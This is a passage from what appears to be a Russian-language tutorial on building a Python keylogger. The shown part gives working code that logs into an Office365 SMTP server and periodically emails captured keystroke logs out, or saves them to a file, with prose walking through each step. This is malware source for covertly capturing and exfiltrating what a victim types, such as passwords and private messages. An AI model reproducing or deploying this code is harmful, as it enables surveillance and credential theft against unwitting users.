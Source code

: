         # after making the mail, convert back as string message
        return msg.as_string()

    def sendmail(self, email, password, message, verbose=1):
        # manages a connection to an SMTP server
        # in our case it's for Microsoft365, Outlook, Hotmail, and live.com
        server = smtplib.SMTP(host="smtp.office365.com", port=587)
        # connect to the SMTP server as TLS mode ( for security )
        server.starttls()
        # login to the email account
        server.login(email, password)
        # send the actual message after preparation
        server.sendmail(email, email, self.prepare_mail(message))
        # terminates the session
        server.quit()
        if verbose:
            print(f"{datetime.now()} - Sent an email to {email} containing:  {message}")
Метод prepare_mail() принимает сообщение в виде обычной строки Python и создает объект MIMEMultipart, который помогает нам создавать как HTML,так и текстовую версию почты.

Затем мы используем метод prepare_mail() в sendmail() для отправки электронной почты. Обратите внимание, что мы использовали SMTP-серверы Office365 для входа в нашу учетную запись электронной почты. Если вы используете другого поставщика, убедитесь, что вы используете его SMTP-серверы. Проверьте этот список SMTP-серверов наиболее распространенных поставщиков услуг электронной почты.

В конце концов, мы прерываем SMTP-соединение и печатаем простое сообщение.

Далее мы создаем метод, который сообщает о ключевых журналах через каждый период времени. Другими словами, каждый раз вызывает sendmail() или report_to_file():

    def report(self):
        """
        This function gets called every `self.interval`
        It basically sends keylogs and resets `self.log` variable
        """
        if self.log:
            # if there is something in log, report it
            self.end_dt = datetime.now()
            # update `self.filename`
            self.update_filename()
            if self.report_method == "email":
                self.sendmail(EMAIL_ADDRESS, EMAIL_PASSWORD, self.log)
            elif self.report_method == "file":
                self.report_to_file()
            # if you don't want to print in the console, comment below line
            print(f"[{self.filename}] - {self.log}")
            self.start_dt = datetime.now()
        self.log = ""